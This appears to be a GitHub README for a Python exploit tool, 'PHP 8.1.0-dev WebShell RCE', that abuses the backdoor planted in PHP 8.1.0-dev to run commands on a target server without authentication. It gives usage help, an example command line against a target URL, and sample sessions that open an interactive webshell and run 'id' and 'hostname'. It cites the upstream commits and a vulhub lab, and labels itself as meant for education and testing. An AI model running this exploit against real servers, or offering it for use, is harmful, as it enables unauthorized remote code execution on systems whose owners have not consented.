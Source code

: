 # PHP 8.1.0-dev WebShell RCE (Unauthenticated)

> Exploit Code for PHP 8.1.0-dev WebShell RCE (Unauthenticated)

Expected outcome: Exploiting backdoor installed on PHP 8.1.0-dev server thereby obtaining WebShell to execute commands remotely.

Intended only for educational and testing in corporate environments.

This Exploit was tested on Python 3.8.6

### Usage:

```shell
cfx:  ~/Documents/
→ ./exploit.py -h
usage: exploit.py [-h] [-l URL]

PHP 8.1.0-dev WebShell RCE by ColdFusionX

optional arguments:
  -h, --help         show this help message and exit
  -l URL, --url URL  PHP 8.1.0-dev Target URL(Example: http://127.0.0.1)

Exploit Usage : 
./exploit.py -l http://127.0.0.1
[^] WebShell=- id
OR
[^] WebShell=- whoami
```

#### User Inputs :

This exploit expects single arguments to run initially :

- **-l** : PHP 8.1.0-dev Target URL

#### POC

- Scenario 1 : Valid Vulnerable target

```shell
cfx:  ~/Documents/
→ ./exploit.py -l http://127.0.0.1

[+] PHP 8.1.0-dev WebShell RCE by ColdFusionX 
 
Target is running on PHP 8.1.0-dev

*Shoot your commands below* 

[^] WebShell=- id

uid=1000(cfx) gid=1000(cfx) groups=1000(cfx)

[^] WebShell=- hostname

shockwave

[^] WebShell=- ^C
Exiting.
```

- Scenario 2 : Invalid Target

```shell
cfx:  ~/Documents/
→ ./exploit.py -l http://127.0.0.1

[+] PHP 8.1.0-dev WebShell RCE by ColdFusionX 
 
Invalid URL or Target Not Vulnerable
```
## Reference

- https://github.com/vulhub/vulhub/tree/master/php/8.1-backdoor
- https://news-web.php.net/php.internals/113838
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
